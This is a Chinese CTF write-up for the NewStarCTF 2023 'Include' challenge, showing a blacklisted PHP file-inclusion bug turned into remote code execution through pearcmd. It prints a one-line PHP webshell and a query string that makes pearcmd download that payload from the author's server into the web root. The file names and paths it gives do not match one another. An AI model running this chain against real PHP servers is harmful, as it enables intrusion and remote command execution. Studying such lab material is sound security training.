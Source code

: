 ```yaml
---
title: '[NewStarCTF 2023 公开赛道]Include 🍐'
date: 2025-02-02 21:54:43
tags: pearcmd
categories: 刷题笔记
---
```


## [NewStarCTF 2023 公开赛道]Include 🍐

一眼看去，有提示我们看phpinfo.php

```php
<?php
    error_reporting(0);
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        
        if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
            die('hacker!');
        }
        
        include($file.".php");
        # Something in phpinfo.php!
    }
    else {
        highlight_file(__FILE__);
    }
?>
```

我们访问，在flag处发现提示

![image-20250202215741125](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022157191.png)

提示我们检查register_argc_argv，我们发现register_argc_argv配置是打开的，那我们就可以通过pear命令进行任意文件读取

![image-20250202221717298](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022217454.png)

```
<?php 
echo '<?php system($_GET[0]);';
```

我们在vps上上传恶意文件

```
?f=pearcmd&+install+-R+/var/www/html+http://ip:port/eval.php
```

然后我们访问/tmp/pear/download/evil.php直接命令执行即可

得到flag

![image-20250202221542360](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022215407.png)

参考

[register_argc_argv与include结合](https://longlone.top/%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/register_argc_argv%E4%B8%8Einclude%20to%20RCE%E7%9A%84%E5%B7%A7%E5%A6%99%E7%BB%84%E5%90%88/)
